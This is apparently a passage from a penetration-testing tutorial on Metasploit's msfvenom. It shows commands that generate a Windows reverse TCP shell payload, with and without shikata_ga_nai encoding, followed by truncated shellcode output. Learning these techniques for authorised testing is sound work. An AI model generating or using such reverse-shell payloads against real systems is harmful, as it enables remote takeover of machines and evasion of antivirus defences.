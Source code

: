 After 2015, updates to these scripts have combined them within the `msfvenom` tool, which takes care of payload generation and Encoding. We will be talking about `msfvenom` in detail later on. Below is an example of what payload generation would look like with today's `msfvenom`:

**Generating Payload - Without Encoding**

```shell-session
[!bash!]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of perl file: 1674 bytes
my $buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
"\xb6\x96\xbd\xc8\x47\xc8\x8c\x1a\x23\x83\xbd\xaa\x27\xc1" .
"\x4d\x42\xd2\x6e\x1f\x40\x2c\x8f\x2b\x1a\x66\x60\x9b\x91" .
"\x50\x4f\x23\x89\xa1\xce\xdf\xd0\xf5\x30\xe1\x1a\x08\x31" .

<SNIP>
```

We should now look at the first line of the `$buf` and see how it changes when applying an encoder like `shikata_ga_nai`.

**Generating Payload - With Encoding**

```shell-session
[!bash!]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai

Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
